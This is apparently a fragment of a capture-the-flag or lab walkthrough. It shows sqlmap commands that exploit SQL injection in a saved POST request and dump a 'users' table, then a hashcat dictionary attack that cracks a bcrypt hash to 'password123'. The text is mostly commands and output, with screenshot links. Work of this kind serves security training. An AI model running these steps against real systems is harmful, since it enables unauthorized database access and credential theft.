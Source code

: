 ```
```

- SQLMap

```
> sqlmap -r post.txt --ignore-code 401
```

![](https://i.imgur.com/1zEpILb.png)


```
> sqlmap -r $PWD/post.txt --ignore-code 401 -T users -dump
```

![](https://i.imgur.com/WiTjnbb.png)

- This hash is crackable with hashcat

```
> hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

![](https://i.imgur.com/TSsdxz2.png)
